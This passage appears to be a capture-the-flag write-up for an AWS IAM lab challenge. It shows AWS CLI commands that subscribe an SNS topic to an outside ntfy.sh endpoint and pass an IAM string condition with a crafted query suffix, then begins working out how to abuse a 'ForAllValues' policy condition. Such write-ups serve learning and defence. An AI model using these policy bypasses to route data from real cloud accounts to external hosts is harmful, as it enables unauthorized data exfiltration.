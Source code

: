 We've changed accounts it seems, though I recall the policy being that any AWS principal could perform the actions.
Did it bounce us because of the string condition?

```bash
$ aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-endpoint https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2?foo=bar@tbic.wiz.io

An error occurred (AuthorizationError) when calling the Subscribe operation: Not authorized to subscribe internal endpoints

```

_Internal endpoints_ - does that mean that it's resolving the SQS domain to private addresses.
That'd make some sense, GitLab blocks private IP endpoints and mirror sources unless you allow it.

Ok, let's push on this https thing a bit and just use `ntfy.sh`.

```bash
$ aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-endpoint https://ntfy.sh/tbic-wiz-io?foo=bar@tbic.wiz.io

{
    "SubscriptionArn": "pending confirmation"
}
```

Message came through to confirm the subscription.
Clicked the subscribe link.
Another minute later and the flag arrived.

### References

- [AWS SNS API reference](https://docs.aws.amazon.com/sns/latest/api/API_Subscribe.html)
- [AWS SNS failed message docs](https://docs.aws.amazon.com/sns/latest/dg/sns-message-delivery-retries.html)
- [AWS SNS common parameters](https://docs.aws.amazon.com/sns/latest/api/CommonParameters.html)
- [AWS CLI for SNS subscribe](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sns/subscribe.html)
- [AWS IAM string conditions](https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_policies_elements_condition_operators.html#Conditions_String)

## Stage 4

Let's have a read of this policy.
Similar challenge to the earlier S3 one, enumerate and pull.
Ah, the `ForAllValues` is suspicious.
Let's read up on that.

Hmmm, it's very specifically advised against using this with `Allow` and single-valued checks.
I'd bet that we're checking _every_ session key for that value.
Cause I don't think we have any control over our `principalArn` and that account number is a troll.
So we should set some tag of our request/session to match that.
Perhaps we can assume our role with a session name?
